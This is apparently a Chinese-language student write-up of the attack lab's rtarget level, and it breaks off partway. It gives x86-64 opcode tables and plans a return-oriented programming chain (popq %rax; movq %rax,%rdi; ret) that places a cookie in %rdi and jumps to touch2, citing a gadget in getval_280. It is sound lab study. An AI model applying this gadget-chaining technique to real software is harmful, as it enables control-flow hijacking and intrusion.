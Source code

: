 **movq S, D**
|S \ D| %rax     | %rcx     | %rdx     | %rbx     | %rsp     | %rbp     | %rsi     | %rdi    |
|---- | -------- | -------- | -------- | -------- | -------- | -------- | -------- | --------|
|%rax | 48 89 c0 | 48 89 c1 | 48 89 c2 | 48 89 c3 | 48 89 c4 | 48 89 c5 | 48 89 c6 | 48 89 c7|
|%rcx | 48 89 c8 | 48 89 c9 | 48 89 ca | 48 89 cb | 48 89 cc | 48 89 cd | 48 89 ce | 48 89 cf|
|%rdx | 48 89 d0 | 48 89 d1 | 48 89 d2 | 48 89 d3 | 48 89 d4 | 48 89 d5 | 48 89 d6 | 48 89 d7|
|%rbx | 48 89 d8 | 48 89 d9 | 48 89 da | 48 89 db | 48 89 dc | 48 89 dd | 48 89 de | 48 89 df|
|%rsp | 48 89 e0 | 48 89 e1 | 48 89 e2 | 48 89 e3 | 48 89 e4 | 48 89 e5 | 48 89 e6 | 48 89 e7|
|%rbp | 48 89 e8 | 48 89 e9 | 48 89 ea | 48 89 eb | 48 89 ec | 48 89 ed | 48 89 ee | 48 89 ef|
|%rsi | 48 89 f0 | 48 89 f1 | 48 89 f2 | 48 89 f3 | 48 89 f4 | 48 89 f5 | 48 89 f6 | 48 89 f7|
|%rdi | 48 89 f8 | 48 89 f9 | 48 89 fa | 48 89 fb | 48 89 fc | 48 89 fd | 48 89 fe | 48 89 ff|

**popq R**
|       | %rax | %rcx | %rdx | %rbx | %rsp | %rbp | %rsi | %rdi|
|-------| ---- | ---- | ---- | ---- | ---- | ---- | ---- | ----|
|popq __R__ | 58   | 59   | 5a   | 5b   | 5c   | 5d   | 5e   | 5f  |

由part1.level2可知我们要做的就是将cookie的值放到%rdi寄存器中，然后跳转到touch2函数。

也就是要想办法执行以下汇编指令：
```asm
movq $0x59b997fa, %rdi
pushq $0x4017ec
retq
```

我不认为在rtarget中能够找到这些包含特定常数的值。

我们可以将这些常数依次放置在栈上，然后通过gadget将其放到寄存器中。

假如在栈上0x59b997fa和0x4017ec按顺序排布，我们可以尝试以下指令。

```asm
popq %rax         #将栈顶的值弹出到%rax寄存器中
movq %rax, %rdi   #将%rax寄存器的值复制到%rdi寄存器中
retq              #将栈顶值作为返回地址，跳转到touch2函数
```

按照上表译码为16进制字节码为：
```
58 
48 89 c7
c3
```

使用objdump工具获得rtarget的汇编代码，按照提示，我们重点关注start_farm和mid_farm之间的代码。在这些代码中，重点关注带有c3指令的代码。

```bash
objdump -d rtarget > rtarget.d
```

在getval_280中，我们发现了一组很有意思的字节
```asm
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	ret   
```
